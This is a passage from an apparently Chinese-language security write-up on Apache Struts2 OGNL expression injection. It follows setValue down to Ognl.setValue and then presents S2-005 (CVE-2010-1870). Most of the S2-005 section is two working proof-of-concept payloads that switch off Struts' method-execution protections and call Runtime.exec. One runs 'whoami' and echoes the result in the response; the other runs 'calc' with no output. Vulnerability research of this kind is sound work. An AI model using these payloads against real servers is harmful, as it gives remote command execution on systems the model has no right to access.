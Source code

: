 ![image-20210813115817606](/media/image-20210813115817606.png)

一直跟进 `stack.setValue()` ，发现底层是使用 `Ognl.setValue()` 来处理的，很明显这也是一个Ognl表达式注入的sink，并且 `xwork.MethodAccessor.denyMethodExecution` 的值为false，允许执行函数：

![image-20210813120127294](/media/image-20210813120127294.png)

RCE证明如下：

![image-20210817164917849](/media/image-20210817164917849.png)

## S2-005

影响版本：Struts 2.0.0 - Struts 2.1.8.1

CVE编号：CVE-2010-1870

POC如下：

```java
// 带回显：
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)
&
('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)
&
('\u0023mycmd\u003d\'whoami\'')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)
&
(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))
&
(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))
&
(C)(('\u0023mydat.readFully(\u0023myres)')(bla))
&
(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))
&
('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)
&
(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

// 不带回显
('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)
&
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023mycmd\u003d\'calc\'')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)
```
